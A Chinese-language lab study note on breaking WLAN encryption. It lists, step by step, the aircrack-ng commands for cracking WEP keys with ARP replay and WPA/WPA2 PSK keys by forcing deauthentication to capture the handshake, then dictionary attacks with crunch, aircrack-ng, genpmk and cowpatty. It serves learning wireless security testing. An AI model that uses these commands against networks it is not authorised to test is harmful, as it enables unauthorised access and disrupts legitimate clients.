

### wlan加密漏洞

- WLAN委员会（IEEE 802.11）制定了以下与数据加密有关的协议
    1. 有限等效保密（WEP） 协议
    2. WiFi保护访问（WPA）协议
    3. WiFi保护访问v2（WPA2）协议

1. ifconfig wlan0 up
2. airmon-ng start wlan0
3. ifconfig
4. airodump-ng wlan0mon
    - airodump-ng --bssid {{your AP MAC}} --channel {{whatever channel it's on}} --write WEPCrackingDemo wlan0mon
        - --write作用让airodump-ng抓到的数据包存入一个pcap文件
5. 无线客户端连接AP
6. ls看到*.cap、*.csv文件
7. 为了生成大量的data数据包，使用aireplay-ng
    - aireplay-ng -3 -b {{AP MAC}} -h {{为发动攻击的无线客户端指定一个冒充的MAC地址}} wlan0mon --ignore-negative-one
8. 针对airodump-ng生成的*.cap文件进行破解，使用aircrack-ng命令
    - aircrack-ng *.cap，等待密码展示
9. 一般来说破解密钥所需数据包的数量不定，一般不低于10万，在一个快速的网络内，或者使用aireplay-ng工具，最多花上5-10分钟
    WEP绝对不是安全的工具，只要用同一密钥加密的数据包的数量足够多，aircrack-ng工具就有机可乘
10. 推荐一个字典生成工具
    - crunch 8 8 01234567 >> ./num.txt

- 4.3.MAX
    - 之前的攻击实验中，若合法的无线客户端突然掉线，则攻击主机将无法执行数据包重放任务，因为AP会决绝接收由尚未与其关联的无线客户端发出的数据包
    - 执行wep破解联系时，运用SKA规避技术，执行七篇验证及关联，尝试让合法的无线客户端掉线，并观察是否仍能将数据包注入无线网络，以及AP是否接收并响应这样的数据包

- 4.4 WPA/WPA2
    - WPA：临时密钥完整性协议加密算法
    - 极易为字典攻击所承
        - 攻击条件：无线客户端和AP之间的4次WPA握手信息，以及包含有常用密码的单词列表（字典），使用aircrack-ng之类的工具，便可尝试破解WPA/WPA2 PSK密码
    1. AP 设置 WPA-PSK验证模式
    2. airmon-ng start wlan0
    3. airodump-ng --bssid {{AP MAC}} --channel 1 --write WPADemo wlan0mon
    4. 捕捉WPA握手所生成的流量
        1. 静候无线客户端连接AP
        2. 通过广播方式发出解除验证数据包，迫使合法的无线客户端段线重连，再伺机捕捉4次WPA握手锁生成的流量
        3. 只要成功捕捉到4次握手相应的数据包，airodump-ng右上角就会（一闪即逝也可）输出"WPA handshake:AP的BSSID"加以提示
        - 我做实验的时候先是使用第一种，后续重新实验使用第二种
            - aireplay-ng --deauth 1 -a {{ap bssid}} wlan0mon --ignore-negative-one，可能需要尝试多次
    5. 关闭airodump-ng，根据生成的cap文件，使用wireshark打开查看握手数据包，握手协议：eapol过滤
    6. kali linux在metasploit目录下提供了许多字段文件，具体放在/usr/share/wordlists/中
    7. aircrack-ng *.cap -w /usr/share/wordlists/nmap.lst
    8. 由于执行的是`字典攻击`，所以AP密码必须存在与字段中，否则无法解密

- 4.4.MAX 
    - 尝试使用cowpatty破解WPA-PSK
            
- 4.7 加快破解速度
    1. 使用genpmk工具
        - genpmk -f {{chosen wordlist}} -d {{预先生成pmk文件名称}} -s {{AP essid}}
    2. 破解密码
        - cowpatty -d {{预先生成pmk文件}} -s {{AP essid}} -r {{握手包.cap}}
        